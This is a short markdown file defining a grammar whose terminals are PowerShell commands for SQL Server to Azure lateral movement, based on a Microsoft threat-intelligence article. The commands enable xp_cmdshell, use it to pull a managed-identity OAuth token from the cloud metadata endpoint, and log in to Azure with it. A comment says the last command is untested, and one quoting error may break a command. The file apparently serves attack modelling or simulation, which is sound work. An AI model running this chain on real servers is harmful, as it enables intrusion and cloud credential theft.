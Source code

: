# Simple CFG For SQL Lateral Movement
Based on article:
[Defending new vectors: Threat actors attempt SQL Server to cloud lateral movement _By Microsoft Threat Intelligence_](https://www.microsoft.com/en-us/security/blog/2023/10/03/defending-new-vectors-threat-actors-attempt-sql-server-to-cloud-lateral-movement/)

### Commands (terminals)
```
c1 = Invoke-Sqlcmd -ServerInstance "<sqlserver>" -Database "<database>" -Username "<username>" -Password "<password>" -Query "EXEC master..sp_configure ‘SHOW advanced options’,1; “RECONFIGURE WITH OVERRIDE;"
c2 = Invoke-Sqlcmd -ServerInstance "<sqlserver>" -Database "<database>" -Username "<username>" -Password "<password>" -Query "EXEC master..sp_configure ‘xp_cmdshell’, 1; RECONFIGURE WITH OVERRIDE;"
c3 = Invoke-Sqlcmd -ServerInstance "<sqlserver>" -Database "<database>" -Username "<username>" -Password "<password>" -Query "EXEC master..sp_configure ‘SHOW advanced options’,0; RECONFIGURE WITH OVERRIDE;"
c4 = $accessToken = Invoke-Sqlcmd -ServerInstance "<sqlserver>" -Database "<database>" -Username "<username>" -Password "<password>" -Query "EXEC xp_cmdshell 'curl -H \"Metadata: true\" \"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/\"'" | Select-String -Pattern '^{.*}' | ForEach-Object { $tokenObject = ConvertFrom-Json $_.Matches[0].Value; $tokenObject.access_token }
c5 = az login -u <sqlserver> -p $accessToken --service-principal
```

[//]: # (^ not sure if c5 is correct, please test)

### Activities (non-terminals)
```
A = c1 c2 c3 c4 c5
```

### Starting Production Rule
```
S -> A
```